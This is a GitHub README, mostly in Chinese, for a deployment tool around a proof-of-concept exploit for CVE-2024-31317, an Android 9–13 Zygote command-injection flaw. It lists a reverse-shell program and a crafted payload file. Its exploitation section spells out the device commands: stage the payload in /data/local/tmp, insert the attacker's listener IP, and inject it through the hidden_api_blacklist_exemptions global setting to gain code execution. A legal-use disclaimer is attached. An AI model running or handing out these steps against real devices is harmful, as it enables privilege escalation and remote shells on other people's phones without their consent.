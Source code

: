# CVE-2024-31317-PoC-Deployer

![Android Version](https://img.shields.io/badge/Android-9%20to%2013-red)
![Patch Level](https://img.shields.io/badge/Patch%20Level-June%202024%2B-green)
![License](https://img.shields.io/badge/License-MIT-blue)

A deployment tool for CVE-2024-31317 proof-of-concept exploit targeting Android 9 through 13 devices.

## 📝 项目描述

CVE-2024-31317-PoC-Deployer 是一个自动化部署脚本，用于快速生成和配置 CVE-2024-31317 漏洞利用所需的全部文件。该漏洞影响 Android 9 到 13 的设备，允许通过 Zygote 进程实现权限提升并执行任意代码。

## 🚨 漏洞信息

- **CVE ID**: CVE-2024-31317
- **影响范围**: Android 9 到 Android 13
- **修复版本**: 2024年6月补丁级别及以后的Android版本
- **漏洞类型**: Zygote进程命令注入
- **所需权限**: WRITE_SECURE_SETTINGS

## 📦 包含文件

- `reverse_shell.c` - C语言实现的反向shell程序
- `payload.txt` - 特殊构造的漏洞利用payload
- `compile.sh` - 自动编译脚本
- `README.txt` - 详细使用说明
- `CVE-2024-31317.txt` - 漏洞技术分析文档

## 🛠️ 快速开始

1. **运行部署脚本**:
   ```bash
   ./deploy.sh
   ```

2. **编译反向shell**:
   ```bash
   ./compile.sh
   ```

3. **运行反向shell监听器**:
   ```bash
   ./reverse_shell
   ```

## 💣 漏洞利用步骤

1. 上传 `payload.txt` 到目标设备的 `/data/local/tmp/`
2. 替换 payload.txt 中的 `xxx.xxx.xxx` 为你的监听服务器IP
3. 在目标设备上执行以下命令序列:
   ```bash
   am force-stop com.android.settings
   cd /data/local/tmp/
   settings put global hidden_api_blacklist_exemptions "$(cat payload.txt)"
   am start -n com.android.settings/.Settings
   settings put global hidden_api_blacklist_exemptions "null"
   ```

## ⚠️ 免责声明

此工具仅用于合法的安全测试和研究目的。使用前必须获得目标系统的明确授权。未经授权的使用可能违反法律。开发者不对任何滥用行为负责。

## 📜 许可证

本项目采用 MIT 许可证 - 详情请参阅 [LICENSE](LICENSE) 文件。

## 📚 技术参考

- [Android Security Bulletin - June 2024](https://source.android.com/docs/security/bulletin)
- [CVE-2024-31317 Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-31317)
